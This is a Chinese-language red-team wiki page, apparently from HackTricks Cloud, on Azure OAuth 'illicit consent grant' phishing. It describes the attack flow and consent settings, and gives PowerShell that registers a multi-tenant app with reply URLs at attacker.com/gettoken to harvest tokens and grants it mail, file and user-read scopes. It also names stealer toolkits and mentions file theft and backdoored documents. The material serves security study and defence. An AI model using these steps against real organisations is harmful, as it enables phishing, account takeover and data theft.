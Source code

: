 # Az - 非法同意授权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## OAuth 应用程序钓鱼

**Azure应用程序**请求权限以访问**用户数据**（基本信息，还可以访问文档，发送电子邮件...）。\
如果**允许**，普通用户只能为**“低影响权限”**授予同意。在**所有其他**情况下，**需要管理员同意**。\
`GA`，`ApplicationAdministrator`，`CloudApplication` `Administrator`和包括`允许向应用程序授予权限`的自定义角色可以提供租户范围的同意。

只有**不需要管理员同意**的权限被分类为**低影响**。这些是用于**基本登录的权限**，如openid、profile、email、User.Read和offline\_access。如果**组织****允许**用户同意**所有应用程序**，员工可以同意应用程序**从其个人资料中读取上述信息**。

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

因此，攻击者可以准备一个**恶意应用程序**，通过**钓鱼**使用户**接受该应用程序并窃取其数据**。

### 检查用户是否允许同意

以下PowerShell命令用于检查Azure Active Directory（Azure AD）中用户的同意配置，以确定他们是否能够同意应用程序：
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **禁用用户同意**: 此设置禁止用户向应用程序授予权限。不允许用户同意任何应用程序。
* **用户可以同意来自经过验证的发布者或您的组织的应用程序，但仅限您选择的权限**: 此设置允许所有用户仅同意由经过验证的发布者发布的应用程序和在您自己的租户中注册的应用程序。它通过仅允许特定权限的同意来增加一层控制。
* **用户可以同意所有应用程序**: 此设置更为宽松，允许所有用户同意任何应用程序的权限，只要这些权限不需要管理员同意。
* **自定义应用程序同意策略**: 此设置表示已制定了自定义策略，可根据特定组织要求进行定制，并可能涉及基于应用程序发布者、应用程序请求的权限和其他因素的限制组合。


## **理解非法同意授予攻击**

在非法同意授予攻击中，攻击者欺骗最终用户向在Azure中注册的恶意应用程序授予权限。这是通过使应用程序看起来合法，导致受害者在不知情的情况下点击“接受”按钮来实现的。结果，Azure AD向攻击者的站点发放令牌，使其能够访问和操纵受害者的数据，例如读取或发送电子邮件和访问文件，而无需组织帐户。

## **攻击流程概述**

攻击涉及针对一家通用公司的几个步骤。以下是攻击可能展开的方式：

1. **域名注册和应用程序托管**: 攻击者注册一个类似可信站点的域名，例如“safedomainlogin.com”。在此域名下，创建一个子域（例如“companyname.safedomainlogin.com”）来托管一个旨在捕获授权代码并请求访问令牌的应用程序。

2. **在Azure AD中注册应用程序**: 然后，攻击者在其Azure AD租户中注册一个多租户应用程序，将其命名为目标公司，以显得合法。他们将应用程序的重定向URL配置为指向托管恶意应用程序的子域。

3. **设置权限**: 攻击者使用各种API权限（例如`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）设置应用程序。一旦用户授予这些权限，攻击者就可以代表用户提取敏感信息。

4. **分发恶意链接**: 攻击者制作一个包含恶意应用程序的客户端ID的链接，并与目标用户共享，欺骗他们同意授予权限。

## **利用工具进行攻击**

攻击可以使用诸如[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)之类的工具来实施。

### 攻击前准备:
如果攻击者对受害组织中的某个用户具有一定程度的访问权限，他们可能会检查组织的政策是否允许用户接受应用程序：
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
为执行攻击，攻击者需要在其Azure租户中创建一个**新的应用程序**（在应用程序注册中），配置了以下权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`位于`Microsoft Graph`中的`委派权限`。（应用程序权限始终需要额外批准）。

* `User.ReadBasic.All`是一个权限，如果被授予，将允许您**读取组织中所有用户的信息**。
* 请记住，只有`GA`、`ApplicationAdministrator`、`CloudApplication Administrator`和包括`授予应用程序权限的权限`的自定义角色可以提供租户范围的同意。因此，如果您希望他批准需要管理员同意的应用程序，您应该**钓鱼一个具有这些角色之一的用户**。

您还可以通过cli创建一个应用程序：
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

查看[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) 以了解如何配置。

{% hint style="warning" %}
请注意，获取的**访问令牌**将用于**图终端**，具有范围：`User.Read` 和 `User.ReadBasic.All`（请求的权限）。您将无法执行其他操作（但这些足以**下载有关组织中所有用户的信息**）。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

您还可以使用此工具执行此攻击。

## 后渗透

一旦您获得用户访问权限，您可以执行诸如窃取敏感文件甚至上传带后门的文档文件等操作。

## 参考资料

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) 上**关注**我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
